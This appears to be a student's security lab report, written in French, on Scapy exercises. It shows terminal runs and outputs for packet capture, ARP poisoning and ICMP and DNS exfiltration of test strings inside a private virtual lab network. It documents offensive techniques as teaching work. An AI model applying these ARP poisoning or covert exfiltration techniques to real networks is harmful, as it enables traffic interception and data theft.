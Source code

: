 TP4 SECU : Exfiltration

I. Getting started Scapy

🌞 ping.py
```
$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Answers :
 - QueryAnswer(query=<IP  frag=0 proto=icmp src=192.168.56.5 dst=192.168.56.1 |<ICMP  type=echo-request |>>, answer=<IP  version=4 ihl=5 tos=0x0 len=28 id=62475 flags= frag=0 ttl=64 proto=icmp chksum=0x957e src=192.168.56.1 dst=192.168.56.5 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
```
🌞 tcp_cap.py
```
$ sudo python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 142.250.179.78
- Adresse IP dst : 10.0.2.15
- Port TCP src : 443
- Port TCP dst : 47168
```

🌞 dns_cap.py
```
$ sudo python3 dns_cap.py
104.26.11.233 ; 172.67.74.226 ; 104.26.10.233 ;
```
```
$ dig ynov.com

; <<>> DiG 9.19.17-1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54956
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ynov.com.			IN	A

;; ANSWER SECTION:
ynov.com.		2	IN	A	104.26.11.233
ynov.com.		2	IN	A	172.67.74.226
ynov.com.		2	IN	A	104.26.10.233

;; Query time: 8 msec
;; SERVER: 192.168.1.1#53(192.168.1.1) (UDP)
;; WHEN: Thu Oct 24 15:52:33 CET 2024
;; MSG SIZE  rcvd: 85
```

🌞 dns_lookup.py
```
$ sudo python3 dns_lookup.py
104.26.10.233 ; 104.26.11.233 ; 172.67.74.226 ;
```

II. ARP Poisoning


🌞 arp_poisoning.py

- Depuis le pc cible :
```
$ ip a | grep 'inet ' | grep vboxnet0
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
$ ip n s | grep 10.13.33.37
```

- Sur le pc attaquant :
```
$ ip a | grep 'inet ' | grep eth0 
    inet 192.168.10.5/24 brd 192.168.10.255 scope global dynamic noprefixroute eth0
$ sudo python3 arp_poisoning.py   
poisoning ongoing...
```

- sur le pc cible
```
$ ip n s | grep 10.13.33.37
10.13.33.37 dev vboxnet0 lladdr de:ad:be:ef:ca:fe STALE
```

III. Exfiltration ICMP

🌞 icmp_exf_send.py
```
$ sudo python3 icmp_exf_send.py 192.168.56.1 t
.
Sent 1 packets.
```
🌞 icmp_exf_receive.py
```
$ sudo python3 icmp_exf_send.py 192.168.56.5 t
.
Sent 1 packets.
```
```
$ sudo python3 icmp_exf_rcv.py
t
```

IV. Exfiltration DNS

🌞 dns_exfiltration_send.py
```
$ sudo python3 dns_exfiltration_send.py 192.168.56.1 je_suis_en_train_de_faire_un_truc_et_voila
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```